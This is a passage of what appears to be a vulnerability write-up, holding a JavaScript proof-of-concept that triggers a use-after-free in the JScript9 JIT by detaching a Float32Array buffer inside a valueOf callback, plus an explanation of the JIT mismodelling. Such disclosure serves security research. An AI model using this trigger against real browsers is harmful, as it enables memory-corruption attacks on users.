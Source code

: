 ```javascript
    // The backing array buffer can be detached in 
    // the valueOf callback, causing the UAF.
    arr[1] = value1;
};

var arr = new Float32Array(0x100);

//Compile opt such that it believes value2 is always an int
for (var i = 0; i < 10000; i++) {
	opt(0x1337, 0x1337, arr, 1);
}

var obj = new Object();
obj.valueOf = function () {
	alert("callback");

	//Free backing array buffer
	worker = new Worker("worker.js");
	worker.postMessage(0, [arr.buffer]);
	worker.terminate();
	worker = null;

	var start = Date.now();
	while(Date.now() - start < 200) {}

	return 1;
};

// Call opt with value2 as an object, not an int.
// JIT has incorrectly modeled that obj.valueOf
// will be called.
opt(0x1337, obj, arr, 0);

```

This vulnerability is an use-after-free due to two JIT mismodellings by JScript9:

1. The JIT compiler fails to predicut that calling `Array.prototype.push` with `arguments` as the `this` object can modify the function argument values on the stack, and
2. The JIT compiler then assumes that `value1` is still a primitive value (an int) and thus fails to model that doing `ToPrimitive` on it (for storing in the Float32Array) can involve callbacks and thus execute arbitrary code.

The `arguments` object is "Array-like", but not a true Array. This means that [it doesn't have all of the usual Array properties except for `length`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/arguments). Usually the function `arguments.push` doesn't and shouldn't exist. To trigger this bug, we set the `push` method for `arguments` to be the same as `Array.push`. When `push` is used to modify `arguments`, the JIT compiler fails to model the modifications of the function arguments correct and thus infers the types incorrectly. 

The incorrect type inference allows triggering the `valueOf` callback when assigning an Object to the Float32Array (`arr[1] = value1`). In the callback, we can detach the Float32Array leading to the UaF.
